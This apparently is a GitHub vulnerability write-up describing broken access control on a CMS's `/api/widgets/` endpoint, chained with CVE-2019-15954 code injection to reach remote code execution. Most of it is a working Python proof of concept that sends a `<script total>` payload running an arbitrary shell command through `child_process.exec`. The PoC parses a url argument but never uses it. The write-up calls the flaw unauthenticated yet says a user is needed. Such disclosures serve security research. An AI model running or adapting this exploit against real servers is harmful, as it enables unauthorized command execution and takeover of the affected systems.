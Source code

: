 # Broken Access Control TO RCE

---

> Any user (including  unauthorized users) can call `/api/widgets/`, This leads to rce

**Code Analysis**

> cmsbundle\.src\controllers\admin.js

- `/api/widgets` be allow call any user

![image-20200218142151636](assets/image-20200218142151636.png)

![image-20200218142218530](assets/image-20200218142218530.png)

- Users aren't grant privileges , also using api :

![image-20200218145341292](assets/image-20200218145341292.png)

- Combine ``CVE-2019-15954 (Code Injection)`` -> **RCE unauthorize** 

---

PoC

- (Needing user in website)

```python
import requests
import sys

session = requests.Session()

def request(cookie,cmd):
    headers = {"Content-Type":"application/json; charset=utf-8"}
    cookies = {"__admin":cookie}
    payload = "\"<script total>global.process.mainModule.require(\'child_process\').exec('%s');</script>\"" %(cmd)
    rawBody = '{"name":"meomeo","body":%s,"category":"Inline"}' %(payload)
    response = session.post("http://localhost:8000/admin/api/widgets/", data=rawBody,headers=headers ,cookies=cookies ,)
    if "true" in response.text:
        print("RCE!")
    else:
        print(response.text)


if __name__ == "__main__":
    if len(sys.argv) < 4:
        print("Help: python PoC.py + cookie + cmd")
        sys.exit()
    else:
        url = sys.argv[1]
        cookie = sys.argv[2]
        cmd = sys.argv[3]
        request(cookie,cmd)
```

**demo:**

![image-20200218144738205](assets/image-20200218144738205.png)
